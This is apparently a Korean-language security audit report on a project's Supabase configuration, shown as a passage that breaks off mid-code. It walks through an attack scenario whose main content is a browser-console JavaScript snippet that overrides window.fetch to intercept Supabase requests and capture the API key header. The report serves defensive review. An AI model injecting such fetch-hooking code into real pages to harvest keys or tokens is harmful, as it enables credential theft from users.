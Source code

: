 # 🔒 Supabase 보안 분석 보고서

## 📅 작성일: 2025-09-02

---

## 1. 개요

본 보고서는 Lodgex 프로젝트의 Supabase 보안 구성을 분석하고, 브라우저를 통한 ANON KEY 탈취 가능성을 실증적으로 검증한 결과입니다.

---

## 2. ANON KEY 탈취 실증 분석

### 2.1 공격 시나리오

공격자가 일반 사용자로서 웹사이트에 접속하여 브라우저 개발자 도구만으로 ANON KEY를 탈취하는 과정을 시연했습니다.

### 2.2 탈취 과정 상세

#### **Step 1: 브라우저 개발자 도구 열기**
```
F12 키 또는 우클릭 → 검사 → Console 탭
```

#### **Step 2: fetch 함수 가로채기 코드 실행**

공격자가 브라우저 콘솔에 다음 코드를 입력:

```javascript
// 원본 fetch 함수를 백업
const originalFetch = window.fetch;

// fetch 함수를 오버라이드하여 API 호출 가로채기
window.fetch = function(url, options = {}) {
  console.log('🔴 Intercepted fetch:', url);
  
  // Supabase API 호출인지 확인
  if (typeof url === 'string' && url.includes('supabase')) {
    window.capturedData = {
      url: url.split('/rest/')[0],
      headers: {}
    };
    
    // 헤더 정보 추출
    if (options.headers) {
      if (options.headers instanceof Headers) {
        options.headers.forEach((value, key) => {
          window.capturedData.headers[key] = value;
          if (key.toLowerCase() === 'apikey') {
            window.capturedData.anonKey = value;
            console.log('🎯 FOUND ANON KEY:', value);
          }
        });
      } else if (typeof options.headers === 'object') {
        for (const [key, value] of Object.entries(options.headers)) {
          window.capturedData.headers[key] = value;
          if (key.toLowerCase() === 'apikey') {
            window.capturedData.anonKey = value;
            console.log('🎯 FOUND ANON KEY:', value);
          }
        }
```